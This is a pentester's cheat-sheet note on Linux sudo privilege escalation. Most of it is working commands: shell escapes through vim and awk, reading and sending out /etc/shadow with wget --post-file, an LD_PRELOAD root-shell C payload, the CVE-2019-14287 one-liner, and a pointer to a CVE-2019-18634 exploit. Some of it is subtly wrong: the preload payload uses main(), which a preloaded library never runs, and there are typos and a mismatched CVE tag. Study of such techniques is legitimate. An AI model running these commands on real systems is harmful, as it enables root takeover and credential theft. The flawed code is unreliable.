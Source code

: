 ```yaml
---
aliases:
  - Linux sudo exploitation
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - sudo
author: Mehdi N Tehrani
creat_date: 2023-12-18
category: Cyber Security
subcategory: Linux Pentesting
---
```


# Shell Escaping
#shell_escaping
[GTFOBins](https://gtfobins.github.io/)

for example if vim can be run with sudo without a password; found through `sudo -l`, the following command can put us into a shell with root privileges
`sudo vim -c '!/bin/bash'
or with aws
`sudo awk 'BEGIN {system("/bin/bash")}'`

# Intended Functionality
#sudo_intended_functionality

for example if can run `apache2` with sudo without password, the following let's us view a system file:
`sudo apache2 -f /etc/shadow`

#wget #wget_post
or can use wget to exfiltrate files
`sudo wget --post-file=/etc/shadow <endpoint>`

# LD_PRELOAD
[GTFOBins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd)
#ld_preload
```
$ sudo -l
Matching Defaults entries for <user> on this host:
    env_reset, env_keep+=LD_PRELOAD

User <user> run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
    ...
```

```c
#include <stdlib.h>
#include <sys/types.h>
#include <stdio.h>

int main(){
   unsetenv("LD_PRELOAD");
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```

```sh
$ gcc -fPIC -shared -o shell.so shell.c
$ LD_PRELOAD=/path/to/shell.so <execurable>
```

# CVE-2019-14287
#sudo #vulnerability #sudo_1_8_27 #cve_2019_14287
`sudo -u#-1 /bin/bash`

an issue with this sudo version where user with id (-1) which doesn't exists causes sudo to crash and return into root shell.


# CVE-2019-18634
#sudo #vulnerability #cve_2019_14287 #pwfeedback #buffer_overflow 
sudo < 1.8.26
**pwfeedback**: asterisks added when typing passwords

![[Pasted image 20231218154309.png]]

Example of a vulnerable sudo:
```
$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

## exploit
https://github.com/saleemrashid/sudo-cve-2019-18634
gcc flags: `-Os -g3 -std=c11 -Wall -Wextra -Wpedantic -static`